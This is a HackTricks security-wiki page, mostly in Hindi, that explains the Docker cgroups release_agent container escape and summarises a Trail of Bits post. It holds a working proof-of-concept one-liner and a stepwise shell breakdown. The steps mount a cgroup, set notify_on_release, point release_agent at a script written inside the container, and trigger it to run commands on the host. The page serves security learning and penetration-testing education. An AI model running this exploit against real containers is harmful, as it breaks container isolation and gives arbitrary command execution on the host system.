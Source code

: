 # Docker release\_agent cgroups escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


**अधिक जानकारी के लिए, कृपया** [**मूल ब्लॉग पोस्ट**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)** को देखें।** यह केवल एक सारांश है:

Original PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. **पर्यावरण तैयार करें:**
* एक निर्देशिका `/tmp/cgrp` बनाई जाती है जो cgroup के लिए माउंट पॉइंट के रूप में कार्य करती है।
* RDMA cgroup नियंत्रक को इस निर्देशिका में माउंट किया जाता है। RDMA नियंत्रक की अनुपस्थिति की स्थिति में, वैकल्पिक के रूप में `memory` cgroup नियंत्रक का उपयोग करने की सिफारिश की जाती है।
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **बच्चे Cgroup सेट करें:**
* एक बच्चे cgroup जिसका नाम "x" है, माउंट किए गए cgroup निर्देशिका के भीतर बनाया गया है।
* "x" cgroup के लिए सूचनाएँ सक्षम की जाती हैं, इसके notify\_on\_release फ़ाइल में 1 लिखकर।
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **रिलीज एजेंट को कॉन्फ़िगर करें:**
* होस्ट पर कंटेनर का पथ /etc/mtab फ़ाइल से प्राप्त किया जाता है।
* फिर cgroup की release\_agent फ़ाइल को प्राप्त किए गए होस्ट पथ पर स्थित /cmd नामक स्क्रिप्ट को निष्पादित करने के लिए कॉन्फ़िगर किया जाता है।
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **/cmd स्क्रिप्ट बनाएं और कॉन्फ़िगर करें:**
* /cmd स्क्रिप्ट कंटेनर के अंदर बनाई जाती है और इसे ps aux निष्पादित करने के लिए कॉन्फ़िगर किया जाता है, जिसका आउटपुट कंटेनर में /output नामक फ़ाइल में पुनर्निर्देशित किया जाता है। होस्ट पर /output का पूरा पथ निर्दिष्ट किया गया है।
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **हमला शुरू करें:**
* "x" चाइल्ड cgroup के भीतर एक प्रक्रिया शुरू की जाती है और तुरंत समाप्त कर दी जाती है।
* यह `release_agent` (जो /cmd स्क्रिप्ट है) को सक्रिय करता है, जो होस्ट पर ps aux चलाता है और आउटपुट को कंटेनर के भीतर /output पर लिखता है।
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
